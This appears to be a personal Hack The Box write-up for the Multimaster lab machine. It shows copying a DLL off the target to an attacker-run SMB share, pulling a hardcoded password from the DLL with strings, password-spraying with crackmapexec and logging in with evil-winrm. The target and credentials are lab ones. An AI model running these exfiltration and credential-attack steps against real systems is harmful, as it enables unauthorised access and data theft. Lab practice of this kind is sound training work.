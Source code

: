 
![[Pasted image 20240927040947.png]]

Let's copy the .dll and do some reverse engineering.


So to copy the file let's fire up a SMB share and copy the .dll their
```
impacket-smbserver Hackthebox $(pwd) -smb2support -user testing -password testing
```

Get a NEW PS-Drive 
So to do that we have to put the user and password in Credential Object.
```
$pass = convertto-securestring 'testing' -AsPlainText -Force 
```

```
$cred= New-Object System.Management.Automation.PSCredential('testing', $pass)
```

```
New-PSDrive -Name testing -PSProvider FileSystem -Credential $cred -Root \\10.10.16.6\Hackthebox
```

![[Pasted image 20240927042918.png]]


```
Copy-Item "C:\inetpub\wwwroot\bin\MultimasterAPI.dll" -Destination "testing"
```


```
copy C:\inetpub\wwwroot\bin\MultimasterAPI.dll testing
```


```
Copy-Item "C:\inetpub\wwwroot\bin\MultimasterAPI.dll" -Destination "C:\Users\alcibiades\Documents"
```


SO now i finally know why to look into this directory as this questions raised 1st thing in my mind.
![[Pasted image 20241002023222.png]]

So i was right we have to copy the file were we have write permission and u have guessed it right in the windows spoolers directory.

```
copy MultimasterAPI.dll C:\Windows\System32\spool\drivers\color
```
![[Pasted image 20241002023910.png]]

So the file has been copied and will try to extract the password from it
Before copying it in windows or running ilspy in kali will use strings against it
It's something new that i am learning
```
strings MultimasterAPI.dll
```


Got nothing when we run it but it has some encoding techniques let's look into it
```
strings -e l MultimasterAPI.dll
```
![[Pasted image 20241002024952.png]]


```
finder
```

```
D3veL0pM3nT!
```


We got the password but i don't the username where we can use it but it's related to database which could be sql user.

Learnt a new thing  more of a mistake i was doing

![[Pasted image 20241002030046.png]]
```
crackmapexec smb 10.10.10.179 -u nn_user.txt -p D3veL0pM3nT!
```

It's good that i am making this mistakes cuz i don't want to do that in real exam and loss the initial change of getting into the network.
![[Pasted image 20241002030135.png]]


Got the user
```
sbauer
```


```
evil-winrm -u 'sbauer' -p 'D3veL0pM3nT!' -i 10.10.10.179
```


